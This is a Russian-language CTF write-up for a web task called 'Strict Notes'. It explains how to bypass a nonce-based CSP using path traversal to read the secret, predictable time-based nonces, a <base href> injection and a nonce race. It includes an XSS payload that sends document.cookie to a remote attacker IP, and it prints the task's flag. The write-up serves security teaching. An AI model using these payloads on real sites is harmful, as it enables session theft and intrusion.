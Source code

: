 # Strict Notes Writeup

## Описание таска

Не выходи из вебчика - не совершай ошибку,
Зачем тебе пывны, если ты куришь шипку?
За багой бессмысленно все, особенно - возглас счастья,
Только крипту реши - и сразу же возвращайся!

## Флаг

`kxctf{s0rry_1_r34ly_l0v3_ch41ns}`

## Райтап

По интересной случайности у таска, помимо интендед решения, оказалось еще два, поэтому расскажу про все :)

### Интендед решение

CSP - это политика контроля источников ресурсов в браузерах.  
В content-security-policy была прописана следующая конфигурация `script-src 'nonce-<рандомный nonce>' 'strict-dynamic'; img-src 'none'; style-src 'self'; frame-src 'none';`. Директива 'strict-dynamic' означала, что браузер будет исполнять, только те скрипты, которые будут иметь в качестве атрибута такой же nonce, как и в HTTP-заголовке ответа 'Content-Security-Policy'. В приложении была такая реализация:
Код генерации шаблонов:
```python
nonce_value = nonce.generate(config.nonce_secret)
    resp = make_response(render_template(template, nonce=nonce_value))
    resp.headers['Content-Security-Policy'] = config.csp_config.format(nonce_value)
```

Код подстановки nonce в качестве атрибута script:
```js
<script nonce="{{ nonce }}" src="/static/js/script.js"></script>
```

Благодаря CSP мы можем сделать так, чтобы браузер исполнял только доверенный нам скрипт, который мы, своего рода, подписали, а все остальные просто отрисовывал, как текст.
Посмотрим на функцию генерации nonce:

```python
def generate(secret: str) -> str:
    phrase = secret + str(int(time.time()))
    return hashlib.md5(phrase.encode()).hexdigest()
```

Мы видим, что nonce на самом деле псевдорандомный и генерируется на основе времени и секрета из конфига `secrets.json`

Получается, получив доступ к секрету, мы сможем сгенерировать валидный nonce, который пройдет проверку и исполнит наш произвольный код. Давайте изучать код дальше и думать, как мы можем достать секрет.

Функция регистрации дает возможность записать в auth-сессию произвольный адрес, не вырезая `../`:
```python
# Используется
session['username'] = username
# А должно быть:
session['username'] = os.path.basename(username)
```

Посмотрим дальше - открытие файлов собственных личных заметок (в ручке `/my`) происходит не с помощью сохраненных безопасных имен пользователей, а с помощью небезоасных гначений в сессииях:
```python
notes.append(json.loads(open(f"/app/user_notes/{session['username']}/{os.path.basename(request.args['id'])}").read()))
```

Таким образом первый шаг эксплуатации такой:
- регистрируем пользователя `../../app`
- переходим по пути `/my?id=secrets.json` и получаем значение секрета, на основе которого генерируются nonce. 

Далее нам надо сгенерировать nonce на несколько секунд вперед (в примере будем делать на 20)
Сделать это можно с помощью питона:
```python
# secret украден из secrets.json 
secret = "asd"
phrase = secret + str(int(time.time()) + 20) # На десять секунд вперед
nonce = hashlib.md5(phrase.encode()).hexdigest()
```

Поле `title` подставляется небезопасным образом, не валидируя опасные для xss символы (оставляем исполнение скриптов на csp - такая конфигурация часто используется в больших приложениях для создания красивых сообщений):
В темплейте:
```html
{% if safe and key in safe: %}
    <td>{{ note[key]|safe }}</td>
{% else %}
    <td>{{ note[key] }}</td>
{% endif %}
```
В рендере видим (невалидируемый `title`):
```python
resp = make_response(render_template("filtered_notes.html", nonce=nonce_value, safe=['title'], title="Public notes", notes=notes))
```

Создаем заметку, в которой в качестве названия указываем следующий xss пейлоад:
```javascript
<script nonce="<сгенерированный nonce на основе секрета>">fetch("http://<удаленный айпишник>/flag?"+dpcument.cookie)</script>
```

После создания получаем от приложение идентификатор заметки.
Через двадцать секунд после генерации nonce сервера будет таким же, как сгенерированный нами(см. выше)
Поднимаем http-server (самый частый пример `python3 -m http.server <port>`) у себя и отправляем запрос на переход бота на нашу уязвимую заметку: `/vote?id=<our uuid>`

В куках бота лежит флаг, поэтому в логах нашего сервера мы увидим запрос, в гет-параметрах которого будет флаг

### Анинтендед решение 1

У тега `base`, не входящего в ограничения CSP, есть возможность поменять базовое расположение, откуда будут подтягиваться все ресурсы на веб-страницу - делается это через атрибут `href`. 

Алгоритм атаки:
- Поднимаем http-сервер и по пути `/static/js/script.js` располагаем наш скрипт
- Создаем записку, в которой пишем `<base href="http://<your own domain name>">`
- Получаем xss без обхода nonce-ов

### Анинтендед решение 2

Так как каждый nonce является валидным в течение целой секунды, мы можем организовать race с помощью скрипта:
- Сходим на любую страницу и посмотрим какой nonce сейчас валидный
- Создадим заметку с <script> и таким nonce-ом
- Отправим бота на эту записку

Таск решен)

## Powered by [FrakenboK](https://github.com/FrakenboK)
